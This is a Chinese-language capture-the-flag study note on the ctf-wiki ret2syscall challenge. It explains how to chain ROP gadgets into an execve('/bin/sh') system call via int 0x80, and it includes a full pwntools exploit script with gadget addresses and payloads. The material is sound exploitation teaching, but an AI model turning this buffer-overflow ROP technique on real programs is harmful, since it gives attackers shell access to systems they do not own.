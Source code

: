 ### 知识

- [[Linux x86 系统调用]]
- [[如何编写 shellcode]]

### 例题

ctf-wiki 的 ret2syscall。

反编译程序，发现没有 RWX 段，也没有后门函数，考虑系统调用获取 shell。

```powershell
NAME
       execve - execute program

SYNOPSIS
       #include <unistd.h>

       int execve(const char *filename， char *const argv[]，
                  char *const envp[]);
```

由函数原型可知，应该把 execve 构造为：`execve('/bin/sh'， 0， 0)` 的格式。

也就是说：

- 先往 eax 里传入 execve 的系统调用号，调用 execve 函数；
- 向 ebx 中传入 `/bin/sh` ，向 ecx 中传入 `0 `，向 edx 中传入 `0`；
- 再触发 0x80 号中断（int 0x80）即可。

即构造如下栈帧：

![](https://pic.imgdb.cn/item/638a189d16f2c2beb1845272.jpg)

具体的 pop_edx_ecx_ebx_ret 的获取，可以用 ROPgadget 实现。

#### exp

```python
from os import execve
from pwn import *

proc = './ret2syscall'
context.binary = (proc)
context.log_level = 'debug'
io = process('./ret2syscall')

exec = 0xb
offset = 112
bin_sh = 0x080be408
pop_eax = 0x080bb196
pop_ecx_ebx = 0x0806eb91
pop_edx = 0x0806eb6a
pop_edx_ecx_ebx = 0x0806eb90
int_0x80 = 0x08049421

# 两种构造方式
payload1 = b'a' * offset + p32(pop_eax) + p32(exec) + p32(pop_edx_ecx_ebx) + p32(0) + p32(0) + p32(bin_sh) + p32(int_0x80)
payload2 = b'a' * offset + p32(pop_eax) + p32(exec) + p32(pop_edx) + p32(0) + p32(pop_ecx_ebx) + p32(0) + p32(bin_sh) + p32(int_0x80)

io.recvuntil("What do you plan to do?")
io.sendline(payload2)

io.interactive()
```


